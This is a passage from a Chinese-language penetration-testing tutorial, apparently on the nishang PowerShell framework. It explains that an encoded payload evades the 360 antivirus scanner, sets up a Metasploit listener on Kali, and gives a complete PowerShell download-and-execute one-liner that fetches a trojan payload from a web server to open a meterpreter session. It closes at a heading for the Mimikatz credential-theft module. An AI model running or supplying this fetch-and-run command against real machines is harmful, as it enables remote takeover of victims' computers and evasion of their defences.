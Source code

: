 **这时会生成一个txt文件，里面是经过处理过的payload字符串，这是用360去扫描是不会报毒的**

**将这个txt文件放到web服务器上，同时在kali上开启msfconsole 进行监听：**

**windows:**

```
powershell iex (New-Object net.webclient).DownloadString('http://192.168.31.113/Execution/Download_Execute.ps1');Download_Execute http://192.168.31.113/Shells/muma2.txt}" 
```

**kali 上可以看到meterpreter 上线；*****前提：没有杀毒软件，360会直接检测报毒**

![image-20240309185639574](./resources/images/5-5.png)

### Mimikatz 模块

**nishang 集成的mimikatz模块**
